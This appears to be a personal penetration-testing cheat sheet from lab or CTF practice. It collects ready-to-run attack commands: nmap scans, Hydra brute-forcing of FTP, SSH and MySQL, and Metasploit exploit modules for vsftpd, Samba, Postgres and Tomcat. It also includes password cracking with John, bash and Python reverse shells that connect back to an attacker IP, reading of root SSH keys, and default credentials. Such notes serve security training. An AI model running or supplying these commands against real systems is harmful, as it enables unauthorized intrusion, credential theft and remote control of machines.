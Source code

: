 #### Nmap

 nmap -Pn -sV Target
 
 nmap -sV -sC 10.10.91.172 -Pn

 nmap -sC -sT Target   (TCP SCAN)

 nmap -A Target (Aggressive scan)

 nmap -sV Tagert -oX scan.xml (For xml)

 nmap -sV Tagert -oN scan (Normal/txt format)

##### Full TCP SCAN
nmap -Pn -iL myip.txt -sV -A -sC -O -p 0-65535 --min-rate 1000 --max-retries 2 -vv -oX myip.xml

##### Full UDP SCAN
nmap -sU --top-ports 1000 -iL myip.txt -oX myip_udp.xml

###### Open Nmap XML file
 
Paste the below code and save it as script.vba. Then open it, your internet explorer will open.

 CreateObject("InternetExplorer.Application").Visible=true

#### Kali Commands
sudo -l (To check all the permissions provided to the current user after using sudo command)
 
curl -X POST http://165.227.106.113/post.php -d "username=admin&password=71urlkufpsdnlkadsf"

curl -H "User-Agent: Sup3rS3cr3tAg3nt" http://165.227.106.113/header.php

curl -H "User-Agent: Sup3rS3cr3tAg3nt" -H "Referer:awesomesauce.com" http://165.227.106.113/header.php

 #### Searchsploit

 searchsploit service version
 
 searchsploit -m number_of_the_exploit(like 42233)
 
 Go to the directory where it is downloaded it would be the same directory.

 open it, cat 42233.txt and read it.

 


### Port 21
#### Hydra

sudo hydra -L user.txt -P pass.txt target ftp   ----> FTP

#### Vsftpd Exploit

In msfconsole

search vsftpd version

use exploit/unix/ftp/
show options
set RHOSTS ip
exploit

### Port 22

#### Hydra

hydra -L user.txt -P pass.txt 192.168.1.103 ssh

#### SSH BFA
use **auxiliary/scanner/ssh/ssh_login**
show options

set RHOSTS ip

set USERPASS_FILE /usr/share/metasploit-framework/data/wordlists/root_userpass.txt

or 

set USER_FILE /usr/share/user.txt
set PASS_FILE /usr/share/pass.txt

or 

**set STOP_ON_SUCCESS true**

set VERBOSE true

exploit

If sessions opened type
sessions
sessions 1 or 2 or whatever the shell opened is or sessions -u 1 or 2
shell (For better view type shell, it will look like linux)

Connect: ssh username@ip

### Port 139 & 445 (Samba)

use **exploit/multi/samba/usermap_script**

show options

set RHOSTS ip

exploit

id , uname -a, python -c 'import pty:pty.spawn("/bin/bash")'

#### Connect to SMB (View Shares)

smbclient -L \\10.10.101.175 or smbclient -L 10.10.101.175

smbclient //10.10.101.175/anonymous

ls

get log.txt

smbclient //10.10.61.86/milesdyson -U milesdyson  (Login to smb)

#### John The Ripper command

john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-sha1 hash

#### Reverse Shell
```
nc -lvp 8080

bash -c 'bash -i >& /dev/tcp/10.10.210.158/8080 0>&1' (10.10.210.158 is attacker's ip and this line is executed in vuln. website)
```
```
nc -lvp 1234

import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“10.10.207.168”,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]); (Python code for reverse shell)
```

#### Hydra Commands

hydra -l username -P passwordlist.txt ssh://target_ip

hydra -L userlist.txt -P passwordlist.txt ftp://target_ip

hydra -L users.txt -P /usr/share/wordlists/rockyou.txt 10.10.137.76 ssh


### Base32 and 64 Decode

echo "KBQWY4DONAQHE53UOJ5CA2LXOQQEQSCBEBZHIZ3JPB2XQ4TQNF2CA5LEM4QHEYLKORUC4===" | base32 -d


### Port  5432 (Postgres)
```
search postgres
use **exploit/linux/postgres/postgres_payload**
set RHOSTS ip
set LHOST ip
run
sessions -u 1 or 2 or whichever
```
### Port 5900 (VNC)

use **auxiliary/scanner/vnc/vnc_login**
set RHOSTS
exploit

after getting password go to terminal

vncviewer vulnerable_ip

For authorized ssh keys after login:
cd root
ls -la
cd .ssh
ls -la
cat authorized_keys

### Port 8180 (Not default port) (Tomcat)

use exploit/multi/http/tomcat_mgr_upload

show options

set RHOSTS

set RPORT 8180

set HttpUsername tomcat

set HttpPassword tomcat

### Port 3389

xfreerdp /u:wade /p:parzival /v:10.10.167.18  (Connect using Linux)

### Port 3306

hydra -L usernames.txt -P passwords.txt 192.168.1.100 mysql

mysql -h example.com -u root -p

### Nessus

nessus ( command /bin/systemctl start nessusd.service, the go to https://localhost:8834/#/ and login, root, Root@123 in windows)

#### For Windows

Start

C:\Windows\system32>net start "Tenable Nessus"

Stop	

C:\Windows\system32>net stop "Tenable Nessus"

#### For Linux

systemctl start nessusd.service

https://IP:11127

User: admin
Pass: admin
